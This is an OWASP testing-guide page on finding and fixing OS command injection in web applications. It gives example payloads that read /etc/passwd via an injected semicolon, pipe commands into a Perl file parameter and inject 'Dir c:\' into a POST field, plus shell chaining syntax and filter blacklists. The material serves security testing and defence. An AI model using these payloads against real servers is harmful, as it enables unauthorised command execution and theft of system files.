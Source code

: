 ```yaml
---

layout: col-document
title: WSTG - Latest
tags: WSTG

---
```

# Testing for Command Injection

|ID          |
|------------|
|WSTG-INPV-12|

## Summary

This article describes how to test an application for OS command injection. The tester will try to inject an OS command through an HTTP request to the application.

OS command injection is a technique used via a web interface in order to execute OS commands on a web server. The user supplies operating system commands through a web interface in order to execute OS commands. Any web interface that is not properly sanitized is subject to this exploit. With the ability to execute OS commands, the user can upload malicious programs or even obtain passwords. OS command injection is preventable when security is emphasized during the design and development of applications.

## How to Test

When viewing a file in a web application, the file name is often shown in the URL. Perl allows piping data from a process into an open statement. The user can simply append the Pipe symbol `|` onto the end of the file name.

Example URL before alteration:

`http://sensitive/cgi-bin/userData.pl?doc=user1.txt`

Example URL modified:

`http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|`

This will execute the command `/bin/ls`.

Appending a semicolon to the end of a URL for a .PHP page followed by an operating system command, will execute the command. `%3B` is URL encoded and decodes to semicolon

Example:

`http://sensitive/something.php?dir=%3Bcat%20/etc/passwd`

### Example

Consider the case of an application that contains a set of documents that you can browse from the Internet. If you fire up a personal proxy (such as ZAP or Burp Suite), you can obtain a POST HTTP like the following (`http://www.example.com/public/doc`):

```txt
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

In this post request, we notice how the application retrieves the public documentation. Now we can test if it is possible to add an operating system command to inject in the POST HTTP. Try the following (`http://www.example.com/public/doc`):

```txt
POST /public/doc HTTP/1.1
Host: www.example.com
[...]
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

If the application doesn't validate the request, we can obtain the following result:

```txt
    Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
              I386
              14/11/2006 18:51
             h4ck3r
             30/09/2005 21:40 25,934
            OWASP1.JPG
            03/11/2006 18:29
                Prog
                18/11/2006 11:20
                    Program Files
                    16/11/2006 21:12
                        Software
                        24/10/2006 18:25
                            Setup
                            24/10/2006 23:37
                                Technologies
                                18/11/2006 11:14
                                3 File 32,496 byte
                                13 Directory 6,921,269,248 byte disponibili
                                Return code: 0
```

In this case, we have successfully performed an OS injection attack.

## Special Characters for Comand Injection

The following special character can be used for command injection such as `|` `;` `&` `$` `>` `<` `'` `!`

- `cmd1|cmd2` : Uses of `|` will make command 2 to be executed weather command 1 execution is successful or not.
- `cmd1;cmd2` : Uses of `;` will make command 2 to be executed weather command 1 execution is successful or not.
- `cmd1||cmd2` : Command 2 will only be executed if command 1 execution fails.
- `cmd1&&cmd2` : Command 2 will only be executed if command 1 execution succeeds.
- `$(cmd)` : For example, `echo $(whoami)` or `$(touch test.sh; echo 'ls' > test.sh)`
- `cmd` : It's used to execute specific command. For example, `whoami`
- `>(cmd)`: `>(ls)`
- `<(cmd)`: `<(ls)`

## Code Review Dangerous API

Be aware of the uses of following API as it may introduce the command injection risks.

### Java

- `Runtime.exec()`

### C/C++

- `system`
- `exec`
- `ShellExecute`

### Python

- `exec`
- `eval`
- `os.system`
- `os.popen`
- `subprocess.popen`
- `subprocess.call`

### PHP

- `system`
- `shell_exec`
- `exec`
- `proc_open`
- `eval`

### Remediation

#### Sanitization

The URL and form data needs to be sanitized for invalid characters. A blacklist of characters is an option but it may be difficult to think of all of the characters to validate against. Also there may be some that were not discovered as of yet. A whitelist containing only allowable characters or command list should be created to validate the user input. Characters that were missed, as well as undiscovered threats, should be eliminated by this list.

General blacklist to be included for command injection can be `|` `;` `&` `$` `>` `<` `'` `\` `!` `>>` `#`

Escape or filter special characters for windows,   `(` `)` `<` `>` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `^` `~` `!` `.` `”` `%` `@` `/` `\` `:` `+` `,`  ``` ` ```
Escape or filter special characters for Linux, `{` `}` `(` `)` `>` `<` `&` `*` `‘` `|` `=` `?` `;` `[` `]` `$` `–` `#` `~` `!` `.` `”` `%`  `/` `\` `:` `+` `,` ``` ` ```

### Permissions

The web application and its components should be running under strict permissions that do not allow operating system command execution. Try to verify all this information to test from a gray-box testing point of view.

## Tools

- OWASP [WebGoat](https://owasp.org/www-project-webgoat/)
- [Commix](https://github.com/commixproject/commix)

## References

- [Penetration Testing for Web Applications (Part Two)](https://www.symantec.com/connect/articles/penetration-testing-web-applications-part-two)
- [OS Commanding](http://projects.webappsec.org/w/page/13246950/OS%20Commanding)
- [CWE-78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')](https://cwe.mitre.org/data/definitions/78.html)
- [ENV33-C. Do not call system()](https://www.securecoding.cert.org/confluence/pages/viewpage.action?pageId=2130132)
